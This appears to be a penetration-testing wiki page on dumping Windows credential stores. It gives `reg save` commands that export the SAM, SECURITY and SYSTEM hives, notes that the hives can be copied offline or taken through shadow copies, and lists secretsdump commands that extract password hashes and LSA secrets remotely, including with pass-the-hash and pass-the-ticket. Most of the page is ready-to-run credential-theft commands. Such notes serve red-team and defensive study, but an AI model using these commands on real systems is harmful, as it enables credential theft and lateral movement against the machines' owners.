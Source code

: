 # SAM & Registry

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```text
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS \(e.g. when booting the computer on another operating system\). The hive files can be found at the following locations.

```text
\system32\config\sam
\system32\config\security
\system32\config\system
```

{% hint style="info" %}
Hives files can also be exfiltrated from live systems using Volume Shadow Copy.
{% endhint %}

the we download the 3 files and extract the hashes with secretsdump:

```text
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
​
# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
​
# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'
​
# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
​
# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL
​
# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```

## Other Resources

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" %}





